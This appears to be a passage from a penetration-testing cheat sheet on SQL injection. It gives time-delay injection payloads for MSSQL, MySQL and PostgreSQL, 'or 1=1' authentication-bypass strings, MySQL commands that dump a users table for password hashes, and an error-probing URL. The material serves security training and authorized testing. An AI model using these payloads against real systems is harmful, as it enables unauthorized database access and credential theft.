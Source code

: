         - **MSSQL Server SQL Injection Time Delay Detection:**
        Add a 30 second delay to a MSSQL Server Query

          - *Original Query*

            `SELECT * FROM products WHERE name='Test';`

          - *Injection Value*

            `'; WAITFOR DELAY '00:00:30'; --`

          - *Resulting Query*

            `SELECT * FROM products WHERE name='Test'; WAITFOR DELAY '00:00:30'; --`

        - **MySQL Injection Time Delay Detection:**
        Add a 30 second delay to a MySQL Query

          - *Original Query*

            `SELECT * FROM products WHERE name='Test';`

          - *Injection Value*

            `'-SLEEP(30); #`

          - *Resulting Query*

            `SELECT * FROM products WHERE name='Test'-SLEEP(30); #`


        - **PostGreSQL Injection Time Delay Detection:**
        Add a 30 second delay to an PostGreSQL Query

          - *Original Query*

            `SELECT * FROM products WHERE name='Test';`

          - *Injection Value*

            `'; SELECT pg_sleep(30); --`

          - *Resulting Query*

            `SELECT * FROM products WHERE name='Test'; SELECT pg_sleep(30); --`

    -   Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and        password

              mysql -u root -p -h $ip
              use "Users"
              show tables;
              select \* from users;

    -   Authentication Bypass

              name='wronguser' or 1=1;
              name='wronguser' or 1=1 LIMIT 1;

    -   Enumerating the Database

        `http://192.168.11.35/comment.php?id=738)'`

        Verbose error message?
